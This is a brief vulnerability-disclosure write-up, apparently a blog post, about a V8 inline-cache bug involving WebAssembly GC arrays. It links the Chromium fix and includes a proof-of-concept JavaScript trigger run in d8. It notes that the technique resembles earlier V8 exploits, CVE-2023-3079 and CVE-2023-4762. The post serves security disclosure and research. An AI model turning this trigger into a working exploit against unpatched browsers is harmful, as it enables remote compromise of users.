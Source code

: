 author: [@mistymntncop](https://x.com/mistymntncop), [@buptsb](https://x.com/buptsb)
2024-06-04 19:45:52

_This writeup is the FIRST public disclosure for this vulnerability._

# Info
[ic] Use slow stub element handler for non-JSObjects
https://chromium-review.googlesource.com/c/v8/v8/+/5527898

![image](https://github.com/buptsb/blog/assets/666724/822a138e-2e18-4a40-ae07-17661fb83baa)

# PoC
https://gist.github.com/mistymntncop/b6599b24cf57fb1b5c5be63a2f702015

```js
d8.file.execute("wasm-module-builder.js");

let builder = new WasmModuleBuilder();

let array_type = builder.addArray(kWasmI32, true);
builder.addFunction('create_array', makeSig([kWasmI32], [wasmRefType(array_type)]))
    .addBody([
        kExprLocalGet, 0,
        kGCPrefix, kExprArrayNewDefault, array_type,
    ])
.exportFunc();

let wasm_instance = builder.instantiate({});
let wasm = wasm_instance.exports;


function set_keyed_prop(arr, key, val) {
    arr[key] = val;
}

function pwn() {
    for(let i = 0; i < 9; i++) {
        set_keyed_prop([], 0, 0x1337);
    }
    let wasm_array = wasm.create_array(0);

    try {
        set_keyed_prop(wasm_array, "foo", 0x1337);
    } catch(err){ }
    set_keyed_prop([], 0, 0x1337);
    
    %DebugPrint(set_keyed_prop);
    
    try {
        set_keyed_prop(wasm_array, 0, 0x1337);
    } catch(err){ }
    
}
pwn();
```
![image](https://github.com/buptsb/blog/assets/666724/c3a5b520-c05e-465d-ad01-9c148a59941f)

# Analysis

Please checkout [@mistymntncop](https://x.com/mistymntncop)'s writeup about [CVE-2023-3079](https://github.com/mistymntncop/CVE-2023-3079), and my poc about [CVE-2023-4762](https://x.com/buptsb/status/1706984650927968501),
it's basicly same exploit technique using v8 polymorphic IC, can't believe it's still exploitable!

